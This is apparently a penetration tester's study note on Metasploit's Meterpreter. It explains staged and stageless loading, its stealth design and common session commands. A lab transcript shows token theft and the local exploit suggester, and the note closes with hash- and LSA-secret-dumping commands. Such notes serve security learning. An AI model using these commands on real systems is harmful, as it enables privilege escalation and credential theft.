 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
The *Meterpreter* payload is a specific type of multi-faceted payload. It utilises DLL injection to ensure a stable, persistent across reboots connection. It has a variety of features built in such as key loggers, hash collection, tapping etc. It runs only in-memory so it is harder to find any forensic traces. We can also load and unload additional scripts and plugins dynamically. It also uses an AES-encrypted link over the socket for secure communication.

## Installation
Meterpreter is a payload that can be used through the [[Metasploit]] framework. Meterpreter comes in both staged (the normal) and stageless forms.
**Staged**:
1. `stage0` is a some shellcode that is executed as part of an exploit payload to open a connection to the attack machine (eg. `reverse_tcp`)
2. `stage1` is then downloaded into memory by stage0. This is where the `metsrv` DLL is read in and using [Reflective DDL Injection] it is read into memory without every being written to disk or registered with the host process. `metsrv` then takes over execution as our meterpreter service we are used too.
3. `stage2` is triggered by `metsrv` and brings in the first extension DLL: `stdapi`
4. `stage3` is the same as stage2, but brings in the final extension DLL: `priv`
Staged means we can hide `stage0` (which is very small `~360b` of shellcode) in many exploits, however the DLLs push up the size to `~1240kb`. This can be a major issue when working in a high latency or low bandwidth network. Additionally thats alot of downloading if you are working across a large network with many shells.

**Stageless**:
As the payload preparation is performed on our machine, the process is slightly different.
1. Metasploit copies the `metsrv` DLL into memory, overwriting the DLL's [DOS header](https://en.wikipedia.org/wiki/DOS_MZ_executable) with some shellcode that:
	1. Does some information gathering with GetPC
	2. Identifies an invokes the `ReflectiveLoader()` in `metsrv` for the Reflective DLL injection
	3. Identifies the pre-loaded extensions and invokes the `DllMain()` in `metsrv` with `DLL_METASPLOIT_ATTACH` which then takes over
	4. After `metsrv` exits, the shellcode also re-invokes `DllMain()` with `DLL_METASPLOIT_DETACH` which exits `metsrv` using the appropriate method.
2. Once the shellcode has been added, metasploit creates an in-memory payload buffer, writing each of the chosen extensions in along with its size.
3. Finally it adds a 32-bit null buffer which is what `metsrv` will look for to end its extension loading
The final payload looks like:
![[Pasted image 20241210132738.png]]
This can then be embedded in an exe file, encoded, and thrown into an exploit.
## Documentation
**Cheatsheet:** [[Using_The_Metasploit_Framework_Module_Cheat_Sheet.pdf]]
**Website:** 

## Meterpreter's Design Goals
### Stealthy
- It resides entirely in memory without anything stored on disk
- No new processes (it injects itself into the compromised process)
- It can migrate from one process to another
- AES encryption for all communications
- Little impact on the victim machine
- Very limited forensic evidence left behind
### Powerful
- Channelised communication between attack and victim machine
- Isolated communication between different channels
- Allows for AES encrypted channels
### Extensible
- Features can be augmented at runtime
- Extensions can be loaded over the network
- Modular structure means new features can be added without rebuilding
## Usage
### Useful Commands
Meterpreter uses a mix of linux & windows syntax command for faster interactions with targets
- *?* : opens the help menu
- *background* / *bg* : backgrounds the current [[Metasploit#Sessions|session]]
- *bgkill* : kill a background script
- *bglist* : list background scripts
- *bgrun* : run a script in the background
- *run* : run a script (not background)
- *channel* : displays channel information
- *close* : close a channel
- *exit* / *quit* : terminate the [[Metasploit#Sessions|session]]
- *guid* : get the GUID for the current session
- *getuid* : gets the current user
- *secure* : (Re)negotiate TLV packet encryption on the session

### Process Migration
In a situation where we don't have permissions, we might be able to migrate to a process with a different user:
```
meterpreter > getuid

[-] 1055: Operation failed: Access is denied


meterpreter > ps

Process List
============

 PID   PPID  Name               Arch  Session  User                          Path
 ---   ----  ----               ----  -------  ----                          ----
 0     0     [System Process]                                                
 4     0     System                                                          
 216   1080  cidaemon.exe                                                    
 272   4     smss.exe                                                        
 292   1080  cidaemon.exe                                                    
<...SNIP...>

 1712  396   alg.exe                                                         
 1836  592   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1920  396   dllhost.exe                                                     
 2232  3552  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad9E519.tmp\svchost.exe
 2312  592   wmiprvse.exe                                                    
 3552  1460  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 3624  592   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 4076  1080  cidaemon.exe                                                    


meterpreter > steal_token 1836

Stolen token with username: NT AUTHORITY\NETWORK SERVICE


meterpreter > getuid

Server username: NT AUTHORITY\NETWORK SERVICE
```

### Using a  meterpreter session in a module
Lets say we need the local exploit suggester module, it can be run by backgrounding the session, finding the module, and configuring its options to run for the session we have established.
```
meterpreter > bg

Background session 1? [y/N]  y


msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester


msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

SESSION => 1


msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```

### Dumping Hashes
```sh
# Dumps users, IDs, and hashes
hashdump

# Dumps SAM (Security Account Manager) db
lsa_dump_sam

# Dumps LSA (Local Security Authority) secrets
lsa_dump_secrets
```